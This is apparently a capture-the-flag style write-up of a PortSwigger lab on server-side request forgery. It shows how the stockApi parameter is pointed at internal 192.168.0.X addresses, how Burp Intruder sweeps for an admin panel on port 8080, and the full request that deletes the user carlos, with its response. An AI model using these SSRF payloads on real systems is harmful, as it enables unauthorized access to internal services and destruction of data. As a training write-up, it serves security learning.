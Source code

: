## Basic SSRF against another back-end system

**Title:** Basic SSRF against another back-end system. [Go](https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-backend-system)

**Description:** This lab has a stock check feature which fetches data from an internal system. To solve the lab, use the stock check functionality to scan the internal `192.168.0.X` range for an admin interface on port 8080, then use it to delete the user `carlos`.
 
## Preface

In some cases, the application server is able to interact with back-end systems that are not directly reachable by users. These systems often have non-routable private IP addresses. The back-end systems are normally protected by the network topology, so they often have a weaker security posture. In many cases, internal back-end systems contain sensitive functionality that can be accessed without authentication by anyone who is able to interact with the systems.

In the previous example, imagine there is an administrative interface at the back-end URL `https://192.168.0.68/admin`. An attacker can submit the following request to exploit the SSRF vulnerability, and access the administrative interface:

```HTTP
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://192.168.0.68/admin
```

## Methodology

### Finding the vulnerable parameter

In this particular lab we are interested in stock check feature.

### My Thought

We visited a product page and intercepted the "Check stock" request in Burp Suite and sent it to Burp Intruder. Then we changed the `stockApi` parameter to `http://192.168.0.1:8080/admin` then highlighted the final octet of the IP address (the number 1), clicked "Add §". In Payloads tab, we changed the payload type to Numbers, and enter 1, 255, and 1 in the "From" and "To" and "Step" boxes respectively. Clicked the "Start attack" button. After clicking on the "Status" column to sort it by status code ascending. We should see a single entry with a status of 200, showing an admin interface.
We sent the request to Burp Repeater, and changed the path in the `stockApi` to: `/admin/delete?username=carlos`.

![poc_ssrf_backed_ip_bruteforce.png](../images/ssrf_backed_ip_bruteforce.png)

**Request**
```HTTP
POST /product/stock HTTP/2
Host: 0add00ba046c41dc80373ab8009b0044.web-security-academy.net
Cookie: session=2EscN7nbRQMxnFKDC9M5Ual4253ORXiR
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0add00ba046c41dc80373ab8009b0044.web-security-academy.net/product?productId=11
Content-Type: application/x-www-form-urlencoded
Content-Length: 72
Origin: https://0add00ba046c41dc80373ab8009b0044.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

stockApi=http://192.168.0.38:8080/admin/delete?username=carlos&storeId=1
```

**Response**
```HTTP
HTTP/2 302 Found
Location: http://192.168.0.38:8080/admin
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```
